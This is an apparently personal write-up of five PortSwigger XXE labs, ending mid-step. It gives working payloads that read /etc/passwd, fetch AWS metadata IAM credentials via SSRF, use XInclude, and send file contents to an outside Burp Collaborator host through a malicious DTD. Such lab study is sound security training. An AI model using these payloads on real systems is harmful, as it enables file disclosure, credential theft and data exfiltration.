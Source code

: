 ![2023-10-21_16-06](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ce19025d-089d-4ec1-95bb-98d739550540)![2023-10-21_16-06](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3d36b6f5-0bb0-4061-993c-cf02487ebdb4)### XML-INJECTION (Portswigger labs)


### <u>Meaning of XML injection </u>
   XML means extensible markup language.It is a form of language designed for storing data and transporting data.It uses a tree-like structure for data storage.
It does not use predefined tags like html.Data can be given to describe the data.Xml applies important elements like xml entities,xml elements and
document type definition(DTD).The document type definition allows custom entities to declared within the declaration.There are two forms of custom entity.
- Custom Entities
- Custom External Entities
### Custom entities
For example

     <!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
The value "my entity value" can be called with &myentity;
### Custom External entities
  External entities will lead us to the first portswigger challenge.This form of custom entities is declared outside the declaration.The example given below uses the keyword SYSTEM which requires a value in url format e.g file:/// url wrapper to load custom external entities.
For example

     <!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
The file url can be used to read files like /etc/passwd etc

### Challenge 1

Challenge description: Read /etc/passwd by  exploiting XXE(XML External Entity)

![2023-10-18_14-29](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ab0f3280-ed81-4eb6-9059-916666c14bc2)

- I explored the site functionalities and I noticed that the site requests data was xml based.

  ![2023-10-18_20-56](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8a1000e6-653c-4296-b08e-7770d7d49c9d)

- I intercepted the check stock request with burpsuite and sent it to the repeater

![2023-10-18_20-59](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4d1cc80c-59a1-4b81-9f77-089634fb91fe)

- To read the file "/etc/passwd", I used this payload from hacktrickz.com

       <?xml version="1.0" encoding="UTF-8"?>
       <!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
        <stockCheck><productId>
         &example;
        </productId><storeId>1</storeId></stockCheck>
    
- And I got this a response from the server showing the contents of the /etc/passwd file
  
![2023-10-18_21-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6252eb19-98b1-4895-8fc0-1585b75c71ea)

- I right clicked on the repeater and showed response in browser and that was how I solved the first challenge

![2023-10-18_21-18](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e722aebe-a491-472b-8447-c14e3e14bf20)

### Challenge 2

Challenge description: Exploiting XXE to get SSRF attacks

![2023-10-18_21-25](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d805517a-8684-402e-b21d-ee368336884e)

- From the challenge description,It was stated that the "check stock" feature parses xml input.I intercepted the the request

![2023-10-18_21-33](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3b38d8ca-55f9-4e6c-9bb3-cbba95a42e38)

- I used this payload to get the secret token of the Amazon Ec2 metadata instance

       <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY example SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
      <stockCheck><productId>&example;</productId><storeId>1</storeId></stockCheck>

- I got this response

![2023-10-18_21-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6dda8f15-06c7-42f5-a078-ef7a4ce4521d)

- Challenge solved

![2023-10-18_21-50](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/208c1e52-9adc-409d-a780-9b080b868849)

### Challenge3
Challenge description: Exploit Xinclude to retrieve file /etc/passwd

![2023-10-18_22-04](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6cdf1414-094c-48d2-a538-7626255a7b97)

- I sent the check stock feature request to the repeater,I noticed that it was not in xml format but just plain POST data

![2023-10-18_22-21](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9c09b928-c8d3-47f6-aba5-73f661da373e)

- I pasted this payload as the value of  the productID parameter

      <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/></foo>
  
- And I was able to read the contents of file /etc/passwd 

![2023-10-18_22-26](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8ca0c654-f7c7-4c90-9b23-f01e5e45dd7c)

### Challenge 4

Challenge description: Blind XXE by out-of-band interaction(Making a request to burp collaborator with XXE)

![2023-10-18_22-43](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/813ccb79-d43c-4f49-ad45-76e2d09ebb95)

- I fired up burp's collaboarator and copied the link


![2023-10-18_22-44](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4a52c176-b314-4c5d-96a9-2e5228e1d970)

- I used this payload

      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://5z5ifxf7c0kn64v7atwvdyhsbjha54tt.oastify.com"> ]>
      <stockCheck><productId>
      &xxe;</productId><storeId>1</storeId></stockCheck>
  
- Then I sent this payload to the server
    
![2023-10-18_22-52](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c0245328-7d0f-40fe-b614-a887d7a78dfa)

- I noticed that a request has been made to burp collaborator,Challenge solved

![2023-10-18_22-55](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/211832e4-b1e8-42f3-966a-c410ba2c0ebc)

### Challenge 5

Challenge's description: Exploiting blind XXE to exfiltrate data with malicious DTD

![2023-10-21_15-38](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b8327cf3-da92-4ad9-b4a1-c2b310b22875)

- The main goal of the challenge was to use the malicious DTD to exfiltrate the /etc/hostname file
- Portswigger provided an exploit server to host the malicious DTD

![2023-10-21_16-01](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8908e0e8-28fc-4e1f-b302-e2bd224b0f84)

- After intercepting the check stock request,I noticed that regular entities are not allowed.

   ![2023-10-21_16-06](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/abeae0b5-ad52-4871-b45f-6330f11c42ba)

- You can bypass it by using parameter entities.A parameter entity is not like a regular entity because it can be called within the dtd and not within the xml tags.e.g

      <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///etc/hostname" >] %xxe;>
- I hosted this payload on the portswigger exploit server to read the file "/etc/hostname" and also send the contents of the file to burp collaborator server

       <!ENTITY % file SYSTEM "file:///etc/hostname">
       <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM '<burp collaborator link>/?x=%file;'>">
       %eval;
       %exfiltrate;
- In burp repeater,I sent an xml request to induce the server to load the dtd file hosted on Portswigger exploit server
  ![2023-10-21_16-22](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c144d8e1-762c-465f-b57b-0e29e0090fe4)

-
